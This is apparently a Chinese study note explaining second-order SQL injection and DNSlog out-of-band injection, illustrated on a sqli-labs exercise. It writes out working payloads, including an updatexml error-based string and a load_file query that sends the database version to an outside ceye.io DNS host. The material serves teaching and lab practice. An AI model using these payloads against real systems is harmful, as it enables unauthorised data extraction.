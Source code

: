   在将数据存入到了数据库中之后。开发者就认为数据是可信的。在下一次需要进行查询的时候，直接从数据库中取出了恶意数据，没有进行进一 步的检验和处理，这样就会造成SQL的二次注入。

  在前端和URL（黑盒测试）是无法发现二次注入，无法用工具扫描，<u>只有在代码审计时才能发现是否存在二次注入，也就是提前知道所插入的恶意数据的类型，在哪里被SQL利用</u>。

![img](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/d03f2d86af5e7aee0e09c2379236aa52378eac48.png@812w_395h_progressive.webp)

**举例：**

比如<u>已经通过代码审计知道</u>，网页有注册和查询/更改密码的功能，并且：

注册页面会在后台执行insert语句`insert into user(id,username,pwd) values(2,’x’,’123’)`

更改密码，则包含update语句`upadte user set pwd=’123456’ where id=2 and username=’admin’`。

> 在注册页面网站使用了addslashes进行了特殊字符的转义，所以无法直接进行注入。但是也因此可以插入一些恶意数据，比如使用`admin' and 1=1#`作为用户名进行注册。
>
> 那么在更新密码页面，就会执行：
>
> `upadte user set pwd=’123’ where id=2 and username='admin' and 1=1#'`
>
> 同理，如果换成注册其它用户名，更新的时候也会形成不同的注入语句。
>
> 比如使用`dhakkan'#`作为用户名注册，那么更新密码时就会执行：
>
> `upadte user set pwd=’sss’ where username='dhakkan'#'`
>
> 被更新密码的账户从`dhakkan'#`变成了`dhakkan`。
>
> ![img](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/4bdb21dc2e0d6958a868d38e4560a7de15dfa1c8.png@461w_92h_progressive.webp)

以此类推，可以借助用户名来爆数据库信息：

用户名：`' or updatexml(1,concat(0x7e,version()),0) or’` 密码：123

那么更新密码的SQL就是：

`update users set pwd='sss' where username='' or updatexml(1,concat(0x7e,version()),0) or'' and password='123456'`

但是网站有时会限制用户名长度，如果是在前端限制，可以修改Maxlength，如果是后端代码进行的限制，则无法成功注入。

### load_file&dnslog注入

sqlilabs-less9-load_file&dnslog 带外注入（实际案例）

**dnslog解决了盲注不能回显数据，效率低的问题**

原理：load_file支持对外的文件读取，通过在URL中加入SQL语句，可以<u>借助读取DNS访问记录得到SQL语句的执行结果</u>。

比如构造如下语句：

`?id=1 and if((select load_file(concat('////',(select version()),'.yk2kql.ceye.io//abc'))),0,1);`

涉及资源：http://ceye.io，注册后可以获得个人的DNS地址：

![img](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/9ded59fe90f60d1cdb4049308f40ac2abe13467b.png@725w_165h_progressive.webp)

成功注入之后，可以在ceye.io网站看到所访问的链接，其中包含了version()数据库版本信息5.5.53.1。
